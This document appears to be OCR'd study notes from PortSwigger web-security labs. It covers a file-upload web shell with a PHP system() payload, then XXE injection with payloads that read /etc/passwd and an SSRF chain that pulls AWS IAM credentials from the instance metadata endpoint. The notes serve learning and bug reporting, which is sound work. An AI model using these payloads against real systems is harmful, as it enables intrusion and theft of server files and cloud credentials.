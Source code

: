 •	Or use Extender, Right-Click > Extensions > Turbo Intruder > Send to turbo intruder.
•	Payloads > Type > Null payloads > Continue indefinitely
•	Start Attack and Refresh the page where /shell.php
o	/avatars/shell.php%20.jpg  /avatars/shell.php
	If u see file that means its vulnerable
o	Maintain the access:
	For this we have to create new .php file.
	In this file, write a code to save php file.
•	In linux cmd:
o	echo “Hello World” > file.txt
•	Similarly,
o	echo “<?php phpinfo() ?>” > shell.php
•	To get execute: payload.php
o	<?php system(‘echo “<?php phpinfo() ?>” > shell.php‘) ?>
	Start attacking and refresh the page.
 
*ATTACK*
XML external entity (XXE) injection | PayloadBox | PayloadsATT
When performed successfully can disclose local files in the file system of the website.  XXE is targeted to access these sensitive local files of the website that is vulnerable to unsafe parsing.

•	Internal Entity: 
o	If an entity is declared within a DTD it is called as internal entity.
	Syntax: <!ENTITY entity_name "entity_value">

•	External Entity: 
o	If an entity is declared outside a DTD it is called as external entity. Identified by SYSTEM.
	Syntax: <!ENTITY entity_name SYSTEM "entity_value">

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
Here it returns a value (381) , and using payload, have to get passwd file

Payload: <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Here “xxe” is a variable, which will return the passwd file as an error. by putting &xxe on the place of 381

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

Types:
1.	File Retrieval XXE
2.	Blind XXE
3.	XXE to SSRF

•	PORTSWINGER LABS: XML external entity (XXE) injection

TYPE 1: File Retrieval XXE
•	Lab 1: Exploiting XXE using external entities to retrieve files
o	For POST /product/stock
	<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY payload SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&payload;</productId></stockCheck>

TYPE 3: XXE to SSRF  
•	Lab 2: Exploiting XXE to perform SSRF attacks
o	For POST /product/stock HTTP/1.1
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp.collaborator.com"> ]>
o	We got HTTP ping back, with IP, after cross checking IP on ipinfo.io and ViewDNS.info
o	We got, they are using AWS services, so we can use AWS IP 169.254.169.254
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/ "> ]>
o	And default location of sensitive data
	latest/meta-data/iam/security-credentials/admin
o	Payload:
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
o	And we got   "AccessKeyId", "SecretAccessKey", "Token" to report.